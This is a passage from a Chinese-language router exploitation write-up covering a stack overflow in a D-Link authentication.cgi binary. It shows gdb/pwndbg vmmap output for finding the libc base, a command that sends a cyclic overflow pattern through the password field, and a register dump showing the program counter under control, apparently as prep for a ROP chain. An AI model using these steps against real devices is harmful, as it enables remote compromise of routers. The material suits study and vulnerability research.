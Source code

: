 跟踪发现这里的覆盖的地址是0x7678ff00，由于`getenv`函数位于libc.so.0库中，我们在跟踪`getenv`函数的时候可以用gdb中的指令地址对应IDA中的偏移计算出libc.so.0库的基址是0x76738000，用pwndbg的vmmap指令可以检验基址的正确性。这里有一个注意点，当gdb调试没有到进入库中调用函数的时候，vmmap是看不到库的真实基址的，只能看到`[linker]`，需要运行到库中的函数才能找到`<explored>`，所以这里覆盖的返回地址在libc.so.0库中，计算偏移为0x57f00，对应的是`__uClibc_main`函数。

```sh
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
  0x400000   0x401000 rwxp     1000 0      /htdocs/web/authentication.cgi
  0x401000   0x423000 r-xp    22000 1000   /htdocs/web/authentication.cgi
  0x423000   0x433000 ---p    10000 23000  /htdocs/web/authentication.cgi
  0x433000   0x435000 rw-p     2000 23000  /htdocs/web/authentication.cgi
  0x433000   0x436000 rw-p     3000 0      <explored>
0x76738000 0x76796000 r-xp    5e000 0      <explored>
0x76738000 0x76796000 r--p    5e000 0      <explored>
0x767a5000 0x767ac000 rw-p     7000 0      <explored>
0x767ad000 0x767d6000 r--p    29000 0      <explored>
0x767e8000 0x767ee000 rw-p     6000 0      <explored>
0x767e9000 0x767ea000 rwxp     1000 0      [linker]
0x767ea000 0x767ee000 r-xp     4000 1000   [linker]
0x767ee000 0x767fd000 ---p     f000 4000   [linker]
0x767fd000 0x767fe000 r--p     1000 4000   [linker]
0x767fe000 0x767ff000 rw-p     1000 5000   [linker]
0x76ffd000 0x77000000 rw-p     3000 0      [stack]
```

### 漏洞利用

这里我们使用与上面DIR815溢出漏洞一样的ROP链，用patternLocOffset.py脚本构造（生成过程不再累述）的填充字符串（保存在test文件中）查看填充四个点的字符串。

```sh
sudo ./cgi_run.sh `python -c "print 'id=1234&password='+open('test','r').read(1200)"`
 V0   0x0
*V1   0x36
*A0   0xa
*A1   0x767a906e ◂— 'urlencoded\r\n\r'
*A2   0x36
 A3   0x0
*T0   0xa
*T1   0x76ffdfa4 —▸ 0x76ffe220 ◂— 0x0
*T2   0x6
*T3   0x19999999
 T4   0x0
*T5   0x57
*T6   0x800
*T7   0x40aff4 ◂— lw     $gp, 0x10($sp)
*T8   0x19
*T9   0x76747da0 ◂— 0x3c1c0006
*S0   0x68423868 ('h8Bh')
*S1   0x30694239 ('9Bi0')
*S2   0x42316942 ('Bi1B')
*S3   0x69423269 ('i2Bi')
*S4   0x34694233 ('3Bi4')
*S5   0x42356942 ('Bi5B')
*S6   0x69423669 ('i6Bi')
*S7   0x38694237 ('7Bi8')
*S8   0x42396942 ('Bi9B')
*FP   0x76fff190 ◂— '1Bj2Bj3Bj4Bj5Bj6Bj7Bj8Bj9Bk0Bk1Bk2Bk3Bk4Bk5Bk6Bk7Bk8Bk9Bl0Bl1Bl2Bl3Bl4Bl5Bl6Bl7Bl8Bl9Bm0Bm1Bm2Bm3Bm4Bm5Bm6Bm7Bm8Bm9Bn0Bn1Bn2Bn3Bn4Bn5Bn6Bn7Bn8Bn9'
*SP   0x76fff190 ◂— '1Bj2Bj3Bj4Bj5Bj6Bj7Bj8Bj9Bk0Bk1Bk2Bk3Bk4Bk5Bk6Bk7Bk8Bk9Bl0Bl1Bl2Bl3Bl4Bl5Bl6Bl7Bl8Bl9Bm0Bm1Bm2Bm3Bm4Bm5Bm6Bm7Bm8Bm9Bn0Bn1Bn2Bn3Bn4Bn5Bn6Bn7Bn8Bn9'
*PC   0x6a42306a ('j0Bj')
pwndbg> x/x $sp+0x14C-0x13C
0x76fff1a0:	0x42376a42
```
